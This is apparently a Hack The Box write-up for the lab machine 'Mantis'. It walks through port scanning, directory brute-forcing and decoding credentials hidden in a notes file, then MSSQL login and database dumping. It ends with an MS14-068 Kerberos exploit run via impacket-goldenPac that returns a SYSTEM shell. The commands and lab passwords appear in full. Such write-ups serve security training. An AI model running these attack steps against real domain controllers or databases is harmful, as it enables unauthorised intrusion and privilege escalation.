






# Mantis
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.52 -T4                            
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-03 09:57 BST
Nmap scan report for 10.10.10.52 (10.10.10.52)
Host is up (0.12s latency).
Not shown: 65508 closed tcp ports (conn-refused)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
1337/tcp  open  waste
1433/tcp  open  ms-sql-s
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5722/tcp  open  msdfsr
8080/tcp  open  http-proxy
9389/tcp  open  adws
47001/tcp open  winrm
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49157/tcp open  unknown
49158/tcp open  unknown
49161/tcp open  unknown
49165/tcp open  unknown
49171/tcp open  unknown
50255/tcp open  unknown
```
```
└─$ nmap -Pn -p53,88,135,139,389,445,464,593,636,1337,1433,3268,3269,5722,8080,9389,10475,26347,49152,49153,49154,49155,49157,49158,49164,49165,49171,50255 -sC -sV 10.10.10.52 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-03 10:22 BST
Nmap scan report for 10.10.10.52 (10.10.10.52)
Host is up (0.15s latency).

PORT      STATE  SERVICE      VERSION
53/tcp    open   domain       Microsoft DNS 6.1.7601 (1DB15CD4) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15CD4)
88/tcp    open   kerberos-sec Microsoft Windows Kerberos (server time: 2023-09-03 09:22:30Z)
135/tcp   open   msrpc        Microsoft Windows RPC
139/tcp   open   netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open   ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open                Windows Server 2008 R2 Standard 7601 Service Pack 1 microsoft-ds (workgroup: HTB)
464/tcp   open   kpasswd5?
593/tcp   open   ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open   tcpwrapped
1337/tcp  open   http         Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
| http-methods: 
|_  Potentially risky methods: TRACE
1433/tcp  open   ms-sql-s     Microsoft SQL Server 2014 12.00.2000.00; RTM
| ms-sql-info: 
|   10.10.10.52:1433: 
|     Version: 
|       name: Microsoft SQL Server 2014 RTM
|       number: 12.00.2000.00
|       Product: Microsoft SQL Server 2014
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info: 
|   10.10.10.52:1433: 
|     Target_Name: HTB
|     NetBIOS_Domain_Name: HTB
|     NetBIOS_Computer_Name: MANTIS
|     DNS_Domain_Name: htb.local
|     DNS_Computer_Name: mantis.htb.local
|     DNS_Tree_Name: htb.local
|_    Product_Version: 6.1.7601
|_ssl-date: 2023-09-03T09:23:37+00:00; -36s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2023-09-03T08:54:18
|_Not valid after:  2053-09-03T08:54:18
3268/tcp  open   ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open   tcpwrapped
5722/tcp  open   msrpc        Microsoft Windows RPC
8080/tcp  open   http         Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Tossed Salad - Blog
9389/tcp  open   mc-nmf       .NET Message Framing
10475/tcp closed unknown
26347/tcp closed unknown
49152/tcp open   msrpc        Microsoft Windows RPC
49153/tcp open   msrpc        Microsoft Windows RPC
49154/tcp open   msrpc        Microsoft Windows RPC
49155/tcp open   msrpc        Microsoft Windows RPC
49157/tcp open   ncacn_http   Microsoft Windows RPC over HTTP 1.0
49158/tcp open   msrpc        Microsoft Windows RPC
49164/tcp closed unknown
49165/tcp open   msrpc        Microsoft Windows RPC
49171/tcp open   msrpc        Microsoft Windows RPC
50255/tcp open   ms-sql-s     Microsoft SQL Server 2014 12.00.2000.00; RTM
| ms-sql-info: 
|   10.10.10.52:50255: 
|     Version: 
|       name: Microsoft SQL Server 2014 RTM
|       number: 12.00.2000.00
|       Product: Microsoft SQL Server 2014
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 50255
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2023-09-03T08:54:18
|_Not valid after:  2053-09-03T08:54:18
| ms-sql-ntlm-info: 
|   10.10.10.52:50255: 
|     Target_Name: HTB
|     NetBIOS_Domain_Name: HTB
|     NetBIOS_Computer_Name: MANTIS
|     DNS_Domain_Name: htb.local
|     DNS_Computer_Name: mantis.htb.local
|     DNS_Tree_Name: htb.local
|_    Product_Version: 6.1.7601
|_ssl-date: 2023-09-03T09:23:37+00:00; -37s from scanner time.
Service Info: Host: MANTIS; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-09-03T09:23:28
|_  start_date: 2023-09-03T08:54:08
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb-os-discovery: 
|   OS: Windows Server 2008 R2 Standard 7601 Service Pack 1 (Windows Server 2008 R2 Standard 6.1)
|   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
|   Computer name: mantis
|   NetBIOS computer name: MANTIS\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: mantis.htb.local
|_  System time: 2023-09-03T05:23:27-04:00
|_clock-skew: mean: 33m41s, deviation: 1h30m43s, median: -36s
```
- `smb`
```
└─$ smbclient -N -L //10.10.10.52 
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.52 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
- `rpc`
```
└─$ rpcclient -U '' -N 10.10.10.52
rpcclient $> enumdomusers
result was NT_STATUS_ACCESS_DENIED
rpcclient $> querydispinfo
result was NT_STATUS_ACCESS_DENIED
rpcclient $> 
```

- Port `8080`
  - Looks like [Orchard CMS](https://github.com/OrchardCMS/Orchard)


- Port `1337`


- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.52:1337/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x txt --no-error 
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.52:1337/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt
[+] Timeout:                 10s
===============================================================
2023/09/03 15:09:22 Starting gobuster in directory enumeration mode
===============================================================
/orchard              (Status: 500) [Size: 3026]
/secure_notes         (Status: 301) [Size: 160] [--> http://10.10.10.52:1337/secure_notes/]
```

- Apparently we could also enumerate users using `kerbrute`
  - `kerbrute userenum --domain htb.local /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt --dc 10.10.10.52`
## Foothold/User
- `http://10.10.10.52:1337/secure_notes/`
  - `web.config` results in `404`
  - `dev_notes_NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx.txt.txt` has some notes






- The creds for admin are in binary format
  - `admin:010000000110010001101101001000010110111001011111010100000100000001110011011100110101011100110000011100100110010000100001`
  - It translates to `@dm!n_P@ssW0rd!`




- I missed it the first time I saw, but the the `dev_notes` files has a `base64` part
  - If we decode it, we have `hex`
  - Then when convert it from `hex` and we have another password
  - `m$$ql_S@_P@ssW0rd!`



- Tried login to `mssql` as `sa` but failed
  - Then tried as `admin` it worked
```
┌──(kali㉿kali)-[~]
└─$ impacket-mssqlclient sa:'m$$ql_S@_P@ssW0rd!'@10.10.10.52    
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] ERROR(MANTIS\SQLEXPRESS): Line 1: Login failed for user 'sa'.
```
```          
┌──(kali㉿kali)-[~]
└─$ impacket-mssqlclient admin:'m$$ql_S@_P@ssW0rd!'@10.10.10.52 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 32576
[*] INFO(MANTIS\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(MANTIS\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (120 7208) 
[!] Press help for extra shell commands
SQL> 

```

- Now let's enumerate the database
  - `SELECT name FROM master.dbo.sysdatabases;`
  - `use orcharddb;`
  - `SELECT * FROM orcharddb.INFORMATION_SCHEMA.TABLES;`
  - `SELECT * FROM blog_Orchard_Users_UserPartRecord;`
  - We have `james:J@m3s_P@ssW0rd!`





- The creds are valid 
```
└─$ crackmapexec smb 10.10.10.52 -u james -p 'J@m3s_P@ssW0rd!'
SMB         10.10.10.52     445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.52     445    MANTIS           [+] htb.local\james:J@m3s_P@ssW0rd!
```

- Let's  enumerate users
  - Seens like only `james` and `Administrator` exist 
```
└─$ rpcclient -U htb.local/james 10.10.10.52
Password for [HTB.LOCAL\james]:
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[james] rid:[0x44f]
```

- No `AS-REP` users

```
└─$ impacket-GetNPUsers 'htb.local/james:J@m3s_P@ssW0rd!' -dc-ip 10.10.10.52
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

No entries found!
```

- Nothing on `smb`
```
└─$ smbclient -L //10.10.10.52 -U james --password 'J@m3s_P@ssW0rd!'     

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
```
## Root
- So apparently, since this is an old box the intended path was `MS14-068`
  - https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/ms14-068
  - https://www.exploit-db.com/exploits/35474
  - For manual exploitation we can follow: https://wizard32.net/blog/knock-and-pass-kerberos-exploitation.html
  - We can exploit it using `mpacket-goldenPac`

```
└─$ impacket-goldenPac 'htb.local/james:J@m3s_P@ssW0rd!'@mantis.htb.local  -dc-ip 10.10.10.52

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] User SID: S-1-5-21-4220043660-4019079961-2895681657-1103
[-] Couldn't get forest info ([Errno Connection error (htb.local:445)] [Errno -2] Name or service not known), continuing
[*] Attacking domain controller 10.10.10.52
[*] 10.10.10.52 found vulnerable!
[*] Requesting shares on mantis.htb.local.....
[*] Found writable share ADMIN$
[*] Uploading file YHXtNJXn.exe
[*] Opening SVCManager on mantis.htb.local.....
[*] Creating service hlvg on mantis.htb.local.....
[*] Starting service hlvg.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
```
